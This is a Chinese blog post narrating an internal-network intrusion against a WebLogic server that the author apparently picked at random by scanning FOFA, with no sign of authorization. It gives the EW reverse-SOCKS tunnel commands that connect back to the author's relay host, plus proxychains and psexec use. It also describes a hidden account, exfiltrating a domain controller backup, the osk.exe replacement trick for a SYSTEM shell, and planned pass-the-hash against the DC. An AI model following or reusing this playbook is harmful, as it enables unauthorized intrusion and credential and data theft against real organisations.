

# 记一次完整的内网渗透经历 - 先知社区

记一次完整的内网渗透经历

- - -

故事的起因比较简单，用三个字来概括吧：闲得慌。  
因为主要还是想练习练习内网，所以用了最简单粗暴的方法去找寻找目标，利用fofa来批量了一波weblogic，不出一会便找到了目标。

简单的看了下机器环境，出网，没有杀软（后面发现实际是有一个很小众的防火墙的，但是不拦powershell），有内网环境。  
所以这里直接尝试cs自带的Scripted Web Delivery模块，直接创建一个web服务用于一键下载和执行powershell。

  
运行刚刚生成的powershell

  
这边的CS成功上线。

  
这里我们先来看看系统的信息。

  
根据上面的可知服务器是2012的，内网IP段在192.168.200.x  
接着用Ladon扫了下内网环境。

  
这个内网段机器不多，可以看出有域环境。接着进行了多网卡检测，web检测。

  
可以看出这个内网有多个网段，开了一个web服务。  
mimikatz只读到了一个用户跟加密的密码

  
密码可以在CMD5上解开

  
接下来就到最激动人心的扫描MS17010时刻！！！

  
可以看出有几台机器是可能存在MS17010的，所以打算开个socks代理直接MSF去打。  
这里笔者劝大家买服务器的时候，尽量买按量计费的服务器，不要像笔者一样，贪图一时便宜，买了个带宽只有1M的HK服务器，CS自带的socks代理开了，本地测试连接都失败，更别说其他操作了。  
所以这里，笔者只能临时开了个按量计费的服务器，利用EW重新开了一条隧道出来。具体流程如下：  
把ew文件丢上刚刚开的服务器，执行：ew -s rcsocks -l 1900 -e 1200来配置一个转接隧道，意思就是将1900端口收到的代理请求转交给反连1200端口的主机

  
接着在目标机器上上传ew文件，执行：ew -s rssocks -d xxx.xxx.xxx.xxx(上方创建的服务器IP) -e 1200，开启目标主机socks5服务并反向连接到中转机器的1200端口，执行完稍等会就可以看到多了一行连接完成。

  
接着只需要在本地配置下代理就OK了。  
Windows程序的话一般用sockscap配置以下这个代理就好了。

  
因为我们要用的是本地虚拟机里面的kali的MSF，kali的代理配置比较方便，先vim /etc/proxychains.conf ，在最下面加上代理

  
保存后直接proxychains 加上要启动的程序就挂上代理了。  
比如我们msf要挂代理，就直接：proxychains msfconsole  
内网之路永远是那么坎坷，在经历了一番换EXP，换工具+摇人之后，确定了MS17010确实是利用不了。  
既然捷径走不了，那么换一条路，从web入手。

  
试了下弱口令注入啥的，没成功，谷歌翻译都翻译不过来，就算进了后台估计也看不懂，还是找其他途径吧。  
于是进一步开始信息搜集：

  
查看保存登陆凭证，无

  
查看共享计算机列表  
接着就开始尝试访问共享计算机的C盘

  
在最后一台时，发现成功访问了  
Ping一下机器得到IP 192.168.200.6

  
右键一个beacon创建一个监听器

接着使用psexec\_psh尝试上线192.168.200.6这台服务器

  
成功上线

  
接下来就对新上线的机器做一波信息搜集

  
没有其他发现  
接下来回到起点，看看这个网段里面还有哪些机器

  
可以看到有四台linux机器，分别是22 , 1 , 5 , 11  
这时候我们可以尝试一波弱口令。

  
只能说运气这玩意儿，用一点就少一点  
简单的查看了进程之类的信息，没有发现，虽然这时候已经拿下了内网得两台机器，但是都不是域内机器，其他的linux主机测试弱口令又不正确，这时又陷入了僵局。  
这时候，我看到先前拿下的.6的那台机器名为veeam backup,猜想这可能是一台备份服务器，他的硬盘内可能有备份文件，所以仔细检查了一下他的每个文件夹内容。  
只能说真的，运气这玩意，该来的时候挡也挡不住。  
在D盘的文件夹下，发现了一个叫Backup的文件夹，里面存放了三个机器的备份。  
简单百度了下后缀，发现是一款叫Veeam® Backup & Replication的软件，他的功能是专门为Vsphere等做备份。

  
一瞬间我的思路就清晰了，只需要在本地安装Veeam® Backup & Replication这软件，再将这台DC的全量备份包压缩传到本地，再恢复成虚拟机，然后通过PE，用CMD.EXE重命名覆盖了OSK.exe，这样子就可以在登录界面调出system的命令行，再想办法添加管理员账户或者修改管理员账户进入界面，本地上线CS，再进行hashdump直接读出存储的域内用户HASH，在通过Pth就可以直接拿下线上的DC了。  
说干就干，因为这台备份服务器不出网，但是他和21这台出网机器有一个共享文件夹，为了方便行事，偷偷在备份服务器上创建了一个隐藏账号，直接7z把最新的一个DC全量备份压缩成700M一个的压缩包，全部放到了共享文件夹中。  
出网的这台机器也只有7001端口出网，所以找到了weblogic的web路径，从共享文件夹中把压缩包都放进了web路径中，从web端进行下载。由于这台出网机器的带宽实在是太低了，均速200K，还不停的卡掉，在经过了漫长的等待后，终于下了下来。  
在这漫长的下载过程中，我先一步本机下载下了Veeam® Backup & Replication这软件，  
突然发现一个很有意思的地方，就是他可以支持本地管理员账号登录。

  
又因为他备份的是其他IP的虚拟机，我猜想他应该是登陆了Vsphere。  
所以又一次挂代理连上去看看。果然猜的没错，芜湖起飞。。相当于管理员权限。。。

  
本地下载的那个全量备份在本地还原也很简单，只需要装了软件双击就回自动打开软件。

  
还原完成

  
接下来就简单了。下载老毛桃 ，生成一个ISO的pe工具箱

  
挂载到虚拟机中，开机按ESC

  
进入PE后，重命名cmd.exe为osk.exe将原来C盘中的\\windows\\system32\\osk.exe给覆盖了，这样子在开机的时候打开屏幕键盘就会弹出SYSTEM权限的命令行。

  
这里直接添加用户出现了点问题。

  
最后将某个域用户修改密码后添加到本地管理员组成功进入了系统。  
最后生成exe上线的时候，憨批防火墙终于起保护了。  
给憨憨防火墙一个正面图。

  
TMD在我本地虚拟机还跟我横？看我不把你关了。

  
然而关闭要密码--算了算了，，忍一忍。  
最后还是用最初的powershell上线了。

  
接着最有仪式感的一幕

  
最后只需要拿着hash去怼线上的DC就完事了。  
完事收工睡觉。
